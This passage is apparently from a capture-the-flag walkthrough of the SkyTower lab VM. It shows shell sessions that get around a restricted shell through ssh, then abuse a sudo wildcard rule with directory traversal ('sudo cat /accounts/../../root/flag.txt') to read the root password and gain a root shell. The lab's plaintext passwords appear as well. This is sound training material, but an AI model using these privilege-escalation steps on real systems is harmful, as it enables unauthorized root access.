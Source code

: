 
How about Sara ?


``` bash

john@SkyTower:~$ su sara
Password: 

Funds have been withdrawn
john@SkyTower:~$

```


We're hitting on the same issue that we had with John - SSH -t to the rescue once again, but this time using a different shell (for some reason /bin/bash does not work)


``` bash

root@pwk:~# ssh sara@127.0.0.1 -p 222 -t /bin/sh
sara@127.0.0.1's password: ihatethisjob
$
```


![](http://i.imgur.com/PbksBXu.gif)

Sara has been entrusted with sudo ability, albeit very locked down, but the available commands running as the root user can be used to leverage directory traversal to read files elsewhere on the filesystem. Files such as /root/flag.txt, which provides us with the root password


``` bash

$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
$ sudo cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
$ 
```


A quick su root drops us to a root shell


``` bash

$ su root
Password: theskytower
root@SkyTower:/home/sara# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:/home/sara# 
```


![](http://38.media.tumblr.com/5e829faafb14759c51d20dae54525c29/tumblr_n964zghd0h1qz581wo2_500.gif)
